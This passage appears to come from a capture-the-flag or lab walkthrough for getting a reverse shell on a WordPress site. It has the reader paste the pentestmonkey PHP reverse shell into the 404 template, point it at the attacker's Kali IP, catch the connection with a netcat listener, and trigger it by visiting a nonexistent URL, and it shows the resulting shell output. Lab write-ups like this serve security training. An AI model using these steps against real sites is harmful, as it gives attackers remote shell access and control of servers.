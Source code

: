 Copy and paste the [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) script into the 404 Template, overwriting all of the existing content.

We need to change the lines at the top of the script ending with `// CHANGE THIS`

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Change to the IP addess to the IP addess of our own kali VM which you can find by running `ifconfig eth0` again.

Leave `$port` as is.
```php
$ip = '10.0.2.15';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Save the template.

When the script is run it will try to establish a TCP nework connection to the configured ip address (`10.0.2.15`) and port (`1234`).

Before we trigger the script we need to configure our computer to listen for a connection on port `1234`.

Tools:

 * [netcat / nc]()

Netcat, or `nc` for short, is a swiss army knife for all such networking tasks.

We will create a netcat listener to catch the connection from the wordpress site.

```
root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
```

Now, while the netcat listener is running trigger the reverse shell script by visiting a non existant URL on the website, causing wordpress to process the  `404 Template` with our reverse shell script.

http://10.0.2.5/idontexist

Check your netcat listener and see it's now connected!

```
root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.5] 42478
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 13:31:05 up  2:08,  1 user,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
robot    tty1                      11:24    2:06m  0.08s  0.02s -bash
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
